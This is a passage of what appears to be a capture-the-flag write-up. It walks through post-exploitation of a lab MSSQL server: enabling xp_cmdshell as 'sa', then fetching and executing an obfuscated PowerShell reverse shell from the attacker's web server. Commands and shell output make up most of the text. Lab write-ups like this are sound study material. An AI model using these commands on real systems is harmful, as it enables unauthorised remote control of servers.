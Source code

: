 ```
SQL (sa  dbo@master)> enable_xp_cmdshell
[*] INFO(DC01\SQLEXPRESS): Line 185: Configuration option 'show advanced options' changed from 1 to 1. Run the RECONFIGURE statement to install.
[*] INFO(DC01\SQLEXPRESS): Line 185: Configuration option 'xp_cmdshell' changed from 0 to 1. Run the RECONFIGURE statement to install.
SQL (sa  dbo@master)> RECONFIGURE
SQL (sa  dbo@master)> xp_cmdshell whoami
output
--------------
sequel\sql_svc

NULL
```

This shell is pretty limited we probably want to upgrade it to a proper reverse shell


## MSSQL - PowerJoker

Generate an obfuscated reverse shell with powerjoker
```bash
python3 /opt/PowerJoker/PowerJoker.py -l 10.10.16.93 -p 4242
```

We can't just paste the b64 blob in our `xp_cmdshell` because it's too long
```bash
[-] ERROR(DC01\SQLEXPRESS): Line 1: Incorrect syntax near 'e'.
[-] ERROR(DC01\SQLEXPRESS): Line 1: The identifier that starts with 'JABzAHQAcgAgAD0AIAAiAFQAYwBQACIAKwAiAEMAIgArACIAbABpACIAKwAiAGUAIgArACIAbgB0ACIAOwAkAHIAZQB2AGUAcgBzAGUAZAAgAD0AIAAtAGoAbwBpAG4A' is too long. Maximum length is 128.
```

But we can host it in a local webserver and download it
```bash
xp_cmdshell powershell -c iwr "http://10.10.16.93:9090/joke.ps1" -o C:\programdata\joke.ps1
xp_cmdshell powershell -c dir C:\programdata\joke.ps1
xp_cmdshell powershell -c C:\programdata\joke.ps1
```

Once we have a proper reverse shell we can explore a little bit, and find this folder under `C:`
```bash
10.10.11.51:57410 >>> [PJSession] 1: dir


    Directory: C:\SQL2019\ExpressAdv_ENU


Mode                LastWriteTime         Length Name
----                -------------         ------ ----
d-----         6/8/2024   3:07 PM                1033_ENU_LP
d-----         6/8/2024   3:07 PM                redist
d-----         6/8/2024   3:07 PM                resources
d-----         6/8/2024   3:07 PM                x64
-a----        9/24/2019  10:03 PM             45 AUTORUN.INF
-a----        9/24/2019  10:03 PM            788 MEDIAINFO.XML
-a----         6/8/2024   3:07 PM             16 PackageId.dat
-a----        9/24/2019  10:03 PM         142944 SETUP.EXE
-a----        9/24/2019  10:03 PM            486 SETUP.EXE.CONFIG
-a----         6/8/2024   3:07 PM            717 sql-Configuration.INI
-a----        9/24/2019  10:03 PM         249448 SQLSETUPBOOTSTRAPPER.DLL


JokerShell C:\SQL2019\ExpressAdv_ENU>
```

